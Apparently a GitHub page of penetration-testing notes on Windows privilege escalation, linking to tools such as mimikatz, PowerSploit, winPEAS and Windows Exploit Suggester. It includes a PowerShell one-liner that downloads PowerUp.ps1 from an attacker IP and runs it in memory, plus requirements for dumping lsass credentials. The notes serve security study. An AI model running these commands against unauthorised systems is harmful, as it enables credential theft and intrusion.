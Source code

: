 **Resources:**

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

- [Sushant747 Guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)

- [Absolomb Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

**Enumeration:**


- [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

  - Need process with permissions to be able to interact with the running lsass.exe process
    -  ran as NT AUTHORITY\SYSTEM
    -  Must be same arch as the lsass.exe running on the target
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Run powershell and run the following to download and run in memory

    iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>PowerUp.ps1')
    
-------------------------------------------------------------------------------------

- [Nishang repo](https://github.com/samratashok/nishang)

-------------------------------------------------------------------------------------

- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
      
-------------------------------------------------------------------------------------
      
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---common-vulnerabilities-and-exposure)

-------------------------------------------------------------------------------------


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && chmod +x windows-exploit-suggester.py && ./windows-exploit-suggester.py --update
      
      # This download and will create an .xlsx database
      
      With meterpreter "sysinfo" or CMD "systeminfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)
